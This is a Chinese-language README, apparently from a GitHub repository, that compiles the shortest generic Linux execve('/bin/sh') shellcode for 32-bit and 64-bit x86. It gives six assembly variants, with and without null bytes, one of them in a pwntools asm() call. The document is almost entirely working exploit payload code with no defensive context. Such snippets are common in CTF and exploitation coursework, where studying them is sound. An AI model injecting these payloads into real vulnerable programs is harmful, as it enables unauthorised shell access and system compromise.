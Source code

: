 
在寄存器都是非理想值情况下(shellcode可根据环境具体触发时寄存器的值做长度调整)，我本着最优通用的原则，整理了Linux下32位和64位最短通用shellcode的编写

## 32位

有"\x00"最短 20 byte
```python
shellcode= '''            
xor ecx,ecx               
mul ecx                   
mov al,0xb                
push 0x68732f             
push 0x6e69622f           
mov ebx,esp               
int 0x80                  
'''                       
shellcode=asm(shellcode)

```
无"\x00"最短 21 byte

```nasm
xor ecx,ecx
mul ecx
push eax
mov al,0xb
push 0x68732f2f   
push 0x6e69622f   
mov ebx,esp
int 0x80
```

标准shellcode 23 byte
```nasm
xor ecx,ecx
xor edx,edx
push edx
push 0x68732f2f
push 0x6e69622f
mov ebx,esp
xor eax,eax
mov al,0xB
int 0x80
```
## 64位


最短有"\x00" 22 byte

```nasm
xor rsi,rsi
mul esi
mov rbx,0x68732f6e69622f
push rbx
push rsp
pop rdi
mov al, 59
syscall
```

最短无"\x00" 23 byte

```nasm
xor rsi,rsi
mul esi
push rax
mov rbx,0x68732f2f6e69622f
push rbx
push rsp
pop rdi
mov al, 59
syscall
```

标准shellcode 31 byte

```nasm
xor    rdi,rdi
xor    rsi,rsi
xor    rdx,rdx
xor    rax,rax
push   rax
mov rbx,0x68732f2f6e69622f
push   rbx
mov    rdi,rsp
mov    al,0x3b
syscall 
```